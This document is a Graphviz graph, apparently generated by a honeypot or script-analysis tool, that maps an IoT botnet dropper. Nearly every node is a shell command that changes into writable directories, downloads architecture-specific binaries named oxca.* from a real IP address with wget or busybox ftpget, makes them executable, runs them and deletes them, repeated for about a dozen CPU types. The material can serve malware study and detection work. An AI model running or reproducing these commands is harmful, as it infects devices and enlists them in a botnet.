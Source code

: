 digraph {
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 10 [label="||,"];
10 [label="wget http://185.158.112.178/oxca.mips "];
10 -> 12 [label=";,"];
12 [label="chmod +x oxca.mips "];
12 -> 48 [label=";,"];
48 [label="./oxca.mips "];
48 -> 32 [label=";,"];
32 [label="rm -rf oxca.mips "];
32 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 28 [label="||,"];
28 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mips oxca.mips "];
28 -> 30 [label=";,"];
30 [label="chmod +x oxca.mips ./oxca.mips "];
30 -> 32 [label=";,"];
32 [label="rm -rf oxca.mips "];
32 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 44 [label="||,"];
44 [label="/bin/busybox wget http://185.158.112.178/oxca.mips "];
44 -> 46 [label=";,"];
46 [label="/bin/busybox chmod +x oxca.mips "];
46 -> 48 [label=";,"];
48 [label="./oxca.mips "];
48 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf oxca.mips "];
66 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 62 [label="||,"];
62 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mips oxca.mips "];
62 -> 64 [label=";,"];
64 [label="/bin/busybox chmod +x oxca.mips ./oxca.mips "];
64 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf oxca.mips "];
66 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 78 [label="||,"];
78 [label="wget http://185.158.112.178/oxca.mpsl "];
78 -> 80 [label=";,"];
80 [label="chmod +x oxca.mpsl "];
80 -> 116 [label=";,"];
116 [label="./oxca.mpsl "];
116 -> 100 [label=";,"];
100 [label="rm -rf oxca.mpsl "];
100 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 96 [label="||,"];
96 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mpsl oxca.mpsl "];
96 -> 98 [label=";,"];
98 [label="chmod +x oxca.mpsl ./oxca.mpsl "];
98 -> 100 [label=";,"];
100 [label="rm -rf oxca.mpsl "];
100 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 112 [label="||,"];
112 [label="/bin/busybox wget http://185.158.112.178/oxca.mpsl "];
112 -> 114 [label=";,"];
114 [label="/bin/busybox chmod +x oxca.mpsl "];
114 -> 116 [label=";,"];
116 [label="./oxca.mpsl "];
116 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf oxca.mpsl "];
134 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 130 [label="||,"];
130 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.mpsl oxca.mpsl "];
130 -> 132 [label=";,"];
132 [label="/bin/busybox chmod +x oxca.mpsl ./oxca.mpsl "];
132 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf oxca.mpsl "];
134 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 146 [label="||,"];
146 [label="wget http://185.158.112.178/oxca.sh4 "];
146 -> 148 [label=";,"];
148 [label="chmod +x oxca.sh4 "];
148 -> 184 [label=";,"];
184 [label="./oxca.sh4 "];
184 -> 168 [label=";,"];
168 [label="rm -rf oxca.sh4 "];
168 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 164 [label="||,"];
164 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.sh4 oxca.sh4 "];
164 -> 166 [label=";,"];
166 [label="chmod +x oxca.sh4 ./oxca.sh4 "];
166 -> 168 [label=";,"];
168 [label="rm -rf oxca.sh4 "];
168 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 180 [label="||,"];
180 [label="/bin/busybox wget http://185.158.112.178/oxca.sh4 "];
180 -> 182 [label=";,"];
182 [label="/bin/busybox chmod +x oxca.sh4 "];
182 -> 184 [label=";,"];
184 [label="./oxca.sh4 "];
184 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf oxca.sh4 "];
202 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 198 [label="||,"];
198 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.sh4 oxca.sh4 "];
198 -> 200 [label=";,"];
200 [label="/bin/busybox chmod +x oxca.sh4 ./oxca.sh4 "];
200 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf oxca.sh4 "];
202 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 214 [label="||,"];
214 [label="wget http://185.158.112.178/oxca.x86 "];
214 -> 216 [label=";,"];
216 [label="chmod +x oxca.x86 "];
216 -> 252 [label=";,"];
252 [label="./oxca.x86 "];
252 -> 236 [label=";,"];
236 [label="rm -rf oxca.x86 "];
236 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 232 [label="||,"];
232 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.x86 oxca.x86 "];
232 -> 234 [label=";,"];
234 [label="chmod +x oxca.x86 ./oxca.x86 "];
234 -> 236 [label=";,"];
236 [label="rm -rf oxca.x86 "];
236 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 248 [label="||,"];
248 [label="/bin/busybox wget http://185.158.112.178/oxca.x86 "];
248 -> 250 [label=";,"];
250 [label="/bin/busybox chmod +x oxca.x86 "];
250 -> 252 [label=";,"];
252 [label="./oxca.x86 "];
252 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf oxca.x86 "];
270 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 266 [label="||,"];
266 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.x86 oxca.x86 "];
266 -> 268 [label=";,"];
268 [label="/bin/busybox chmod +x oxca.x86 ./oxca.x86 "];
268 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf oxca.x86 "];
270 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 282 [label="||,"];
282 [label="wget http://185.158.112.178/oxca.arm61 "];
282 -> 284 [label=";,"];
284 [label="chmod +x oxca.arm61 "];
284 -> 320 [label=";,"];
320 [label="./oxca.arm61 "];
320 -> 304 [label=";,"];
304 [label="rm -rf oxca.arm61 "];
304 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 300 [label="||,"];
300 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm61 oxca.arm61 "];
300 -> 302 [label=";,"];
302 [label="chmod +x oxca.arm61 ./oxca.arm61 "];
302 -> 304 [label=";,"];
304 [label="rm -rf oxca.arm61 "];
304 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 316 [label="||,"];
316 [label="/bin/busybox wget http://185.158.112.178/oxca.arm61 "];
316 -> 318 [label=";,"];
318 [label="/bin/busybox chmod +x oxca.arm61 "];
318 -> 320 [label=";,"];
320 [label="./oxca.arm61 "];
320 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf oxca.arm61 "];
338 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 334 [label="||,"];
334 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm61 oxca.arm61 "];
334 -> 336 [label=";,"];
336 [label="/bin/busybox chmod +x oxca.arm61 ./oxca.arm61 "];
336 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf oxca.arm61 "];
338 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 350 [label="||,"];
350 [label="wget http://185.158.112.178/oxca.i686 "];
350 -> 352 [label=";,"];
352 [label="chmod +x oxca.i686 "];
352 -> 388 [label=";,"];
388 [label="./oxca.i686 "];
388 -> 372 [label=";,"];
372 [label="rm -rf oxca.i686 "];
372 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 368 [label="||,"];
368 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i686 oxca.i686 "];
368 -> 370 [label=";,"];
370 [label="chmod +x oxca.i686 ./oxca.i686 "];
370 -> 372 [label=";,"];
372 [label="rm -rf oxca.i686 "];
372 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 384 [label="||,"];
384 [label="/bin/busybox wget http://185.158.112.178/oxca.i686 "];
384 -> 386 [label=";,"];
386 [label="/bin/busybox chmod +x oxca.i686 "];
386 -> 388 [label=";,"];
388 [label="./oxca.i686 "];
388 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf oxca.i686 "];
406 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 402 [label="||,"];
402 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i686 oxca.i686 "];
402 -> 404 [label=";,"];
404 [label="/bin/busybox chmod +x oxca.i686 ./oxca.i686 "];
404 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf oxca.i686 "];
406 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 418 [label="||,"];
418 [label="wget http://185.158.112.178/oxca.ppc "];
418 -> 420 [label=";,"];
420 [label="chmod +x oxca.ppc "];
420 -> 456 [label=";,"];
456 [label="./oxca.ppc "];
456 -> 440 [label=";,"];
440 [label="rm -rf oxca.ppc "];
440 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 436 [label="||,"];
436 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc oxca.ppc "];
436 -> 438 [label=";,"];
438 [label="chmod +x oxca.ppc ./oxca.ppc "];
438 -> 440 [label=";,"];
440 [label="rm -rf oxca.ppc "];
440 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 452 [label="||,"];
452 [label="/bin/busybox wget http://185.158.112.178/oxca.ppc "];
452 -> 454 [label=";,"];
454 [label="/bin/busybox chmod +x oxca.ppc "];
454 -> 456 [label=";,"];
456 [label="./oxca.ppc "];
456 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf oxca.ppc "];
474 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 470 [label="||,"];
470 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.ppc oxca.ppc "];
470 -> 472 [label=";,"];
472 [label="/bin/busybox chmod +x oxca.ppc ./oxca.ppc "];
472 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf oxca.ppc "];
474 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 486 [label="||,"];
486 [label="wget http://185.158.112.178/oxca.i586 "];
486 -> 488 [label=";,"];
488 [label="chmod +x oxca.i586 "];
488 -> 524 [label=";,"];
524 [label="./oxca.i586 "];
524 -> 508 [label=";,"];
508 [label="rm -rf oxca.i586 "];
508 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 504 [label="||,"];
504 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i586 oxca.i586 "];
504 -> 506 [label=";,"];
506 [label="chmod +x oxca.i586 ./oxca.i586 "];
506 -> 508 [label=";,"];
508 [label="rm -rf oxca.i586 "];
508 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 520 [label="||,"];
520 [label="/bin/busybox wget http://185.158.112.178/oxca.i586 "];
520 -> 522 [label=";,"];
522 [label="/bin/busybox chmod +x oxca.i586 "];
522 -> 524 [label=";,"];
524 [label="./oxca.i586 "];
524 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf oxca.i586 "];
542 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 538 [label="||,"];
538 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.i586 oxca.i586 "];
538 -> 540 [label=";,"];
540 [label="/bin/busybox chmod +x oxca.i586 ./oxca.i586 "];
540 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf oxca.i586 "];
542 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 554 [label="||,"];
554 [label="wget http://185.158.112.178/oxca.m68k "];
554 -> 556 [label=";,"];
556 [label="chmod +x oxca.m68k "];
556 -> 592 [label=";,"];
592 [label="./oxca.m68k "];
592 -> 576 [label=";,"];
576 [label="rm -rf oxca.m68k "];
576 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 572 [label="||,"];
572 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.m68k oxca.m68k "];
572 -> 574 [label=";,"];
574 [label="chmod +x oxca.m68k ./oxca.m68k "];
574 -> 576 [label=";,"];
576 [label="rm -rf oxca.m68k "];
576 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 588 [label="||,"];
588 [label="/bin/busybox wget http://185.158.112.178/oxca.m68k "];
588 -> 590 [label=";,"];
590 [label="/bin/busybox chmod +x oxca.m68k "];
590 -> 592 [label=";,"];
592 [label="./oxca.m68k "];
592 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf oxca.m68k "];
610 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 606 [label="||,"];
606 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.m68k oxca.m68k "];
606 -> 608 [label=";,"];
608 [label="/bin/busybox chmod +x oxca.m68k ./oxca.m68k "];
608 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf oxca.m68k "];
610 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 622 [label="||,"];
622 [label="wget http://185.158.112.178/oxca.spc "];
622 -> 624 [label=";,"];
624 [label="chmod +x oxca.spc "];
624 -> 660 [label=";,"];
660 [label="./oxca.spc "];
660 -> 644 [label=";,"];
644 [label="rm -rf oxca.spc "];
644 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 640 [label="||,"];
640 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.spc oxca.spc "];
640 -> 642 [label=";,"];
642 [label="chmod +x oxca.spc ./oxca.spc "];
642 -> 644 [label=";,"];
644 [label="rm -rf oxca.spc "];
644 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 656 [label="||,"];
656 [label="/bin/busybox wget http://185.158.112.178/oxca.spc "];
656 -> 658 [label=";,"];
658 [label="/bin/busybox chmod +x oxca.spc "];
658 -> 660 [label=";,"];
660 [label="./oxca.spc "];
660 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf oxca.spc "];
678 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 674 [label="||,"];
674 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.spc oxca.spc "];
674 -> 676 [label=";,"];
676 [label="/bin/busybox chmod +x oxca.spc ./oxca.spc "];
676 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf oxca.spc "];
678 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 690 [label="||,"];
690 [label="wget http://185.158.112.178/oxca.arm41 "];
690 -> 692 [label=";,"];
692 [label="chmod +x oxca.arm41 "];
692 -> 728 [label=";,"];
728 [label="./oxca.arm41 "];
728 -> 712 [label=";,"];
712 [label="rm -rf oxca.arm41 "];
712 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 708 [label="||,"];
708 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm41 oxca.arm41 "];
708 -> 710 [label=";,"];
710 [label="chmod +x oxca.arm41 ./oxca.arm41 "];
710 -> 712 [label=";,"];
712 [label="rm -rf oxca.arm41 "];
712 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 724 [label="||,"];
724 [label="/bin/busybox wget http://185.158.112.178/oxca.arm41 "];
724 -> 726 [label=";,"];
726 [label="/bin/busybox chmod +x oxca.arm41 "];
726 -> 728 [label=";,"];
728 [label="./oxca.arm41 "];
728 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf oxca.arm41 "];
746 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 742 [label="||,"];
742 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm41 oxca.arm41 "];
742 -> 744 [label=";,"];
744 [label="/bin/busybox chmod +x oxca.arm41 ./oxca.arm41 "];
744 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf oxca.arm41 "];
746 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 758 [label="||,"];
758 [label="wget http://185.158.112.178/oxca.arm51 "];
758 -> 760 [label=";,"];
760 [label="chmod +x oxca.arm51 "];
760 -> 796 [label=";,"];
796 [label="./oxca.arm51 "];
796 -> 780 [label=";,"];
780 [label="rm -rf oxca.arm51 "];
780 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 776 [label="||,"];
776 [label="ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm51 oxca.arm51 "];
776 -> 778 [label=";,"];
778 [label="chmod +x oxca.arm51 ./oxca.arm51 "];
778 -> 780 [label=";,"];
780 [label="rm -rf oxca.arm51 "];
780 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 792 [label="||,"];
792 [label="/bin/busybox wget http://185.158.112.178/oxca.arm51 "];
792 -> 794 [label=";,"];
794 [label="/bin/busybox chmod +x oxca.arm51 "];
794 -> 796 [label=";,"];
796 [label="./oxca.arm51 "];
796 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf oxca.arm51 "];
814 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 810 [label="||,"];
810 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.158.112.178 oxca.arm51 oxca.arm51 "];
810 -> 812 [label=";,"];
812 [label="/bin/busybox chmod +x oxca.arm51 ./oxca.arm51 "];
812 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf oxca.arm51 "];
814 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
